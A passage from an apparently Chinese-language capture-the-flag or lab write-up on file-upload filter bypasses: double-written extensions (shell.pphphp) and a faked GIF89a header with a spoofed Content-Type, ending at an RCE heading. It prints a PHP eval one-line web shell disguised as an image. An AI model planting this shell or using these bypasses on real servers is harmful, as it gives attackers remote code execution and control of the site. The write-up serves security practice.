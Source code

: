 最后上传的路径为/uoload/1.php然后一句话，一把梭

##### 双写后缀

直接不做修改的上传发现：

![](img/e5dd6280519b943b9c0ff629b9e13f48.png)

php没了！！！

所以这里关于绕过，而且明显告诉是双写，那就：

shell.pphphp

成功了，一把梭（关于怎么绕过要自己不断尝试，即可）

#### 文件头检查

都说是文件头检查了，那肯定就是抓包啊

将文件改为这个

Content-Type: image/png

但是说我文件错误，是文件错误，那么就准备改文件，

```
GIF89a
<?php @eval($_POST['666']);?> 
```

把随便一个图片用hex打开发现他头部信息就是这个GIF89a

然后继续上传准备一把梭

![](img/2eb79f0441990a646e72a11b41b92508.png)

success

## RCE

### eval执行
